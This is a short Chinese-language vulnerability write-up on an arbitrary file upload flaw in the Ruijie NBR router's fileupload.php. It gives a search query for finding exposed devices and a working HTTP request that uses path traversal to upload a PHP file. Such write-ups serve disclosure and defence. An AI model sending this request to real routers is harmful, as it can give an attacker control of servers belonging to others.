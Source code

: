 # 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限

## 漏洞影响

<a-checkbox checked>锐捷 NBR 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-NBR路由器"</a-checkbox></br>

## 漏洞复现

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647768741978-90d9f47d-e003-4565-9153-9ccd7fbda5cc.png)

出现漏洞的文件在 /ddi/server/fileupload.php， 该文件为标准的文件上传文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647768806049-76ae4f06-3df1-43cc-9154-2dfffafddcaf.png)

文件名及目录均可控，导致可以任意上传文件

```php
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647768840891-cb2de5f0-98bb-40e0-9b9e-bcf348864f85.png)

访问上传的文件目录

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1647768865012-128cd155-75d0-4e94-a1fc-dbed5df6f8dc.png)